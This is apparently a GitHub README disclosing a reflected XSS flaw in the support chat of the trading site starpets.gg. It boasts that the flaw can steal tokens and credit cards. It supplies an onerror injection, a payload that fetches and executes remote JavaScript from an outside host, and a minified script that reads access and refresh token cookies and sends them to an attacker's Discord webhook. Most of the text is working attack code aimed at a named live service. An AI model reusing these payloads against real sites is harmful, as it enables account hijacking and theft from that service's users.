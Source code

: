 EXPLOIT/CODE FOUND AND MADE BY @Itemset on discord 
TEST BY LUKE AND NTXING




##Status: Being Fixed
### website: https://starpets.gg
#### Vulnibity: XSS Reflected 

**What can this exploit do?**

- lets attackers steal access tokens
- inject JS in to page
- steal creditcards when entered
- spoof website

**Where?**
In support chat. Victim will send the payload in the chat and JS will be injected

**xss injection**
```html
<img src="" onerror="YOUR SCRIPT" />
```

**Proof of work**
```html
<img src="" onerror="fetch('https://badcode.com/script.js').then(response => response.text()).then(script => new Function(script)());"/>
```
the following shows how to inject a remote javascript file on the website.

**Proof of concept**
using the proof of work if the attacker wants to steal a starpets account he must use the following JS script to be loaded 

```js
function getCookiesMap(e){return e.split(";").map(function(e){return e.trim().split("=")}).reduce(function(e,n){return e[n[0]]=n[1],e},{})}function tokens(){let e=getCookiesMap(document.cookie);if(!e.hasOwnProperty("access-token")||!e.hasOwnProperty("refresh-token"))return[void 0,void 0];let n=e["access-token"],t=e["refresh-token"];return{accessToken:n,refreshToken:t}}async function leet(e,n,t){try{await fetch(e,{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({content:null,embeds:[{title:"1337 made by NTX, Camel and Luke!",color:0,fields:[{name:"Access Token",value:"```\n"+n+"\n```"},{name:"Refresh Token",value:"```\n"+t+"\n```"}]}],attachments:[]})})}catch(o){console.error("Error sending message:",o)}}const{accessToken:e,refreshToken:n}=tokens();leet(atob("YOUR BASE 64 DISCORD WEBHOOK"),e,n);
```
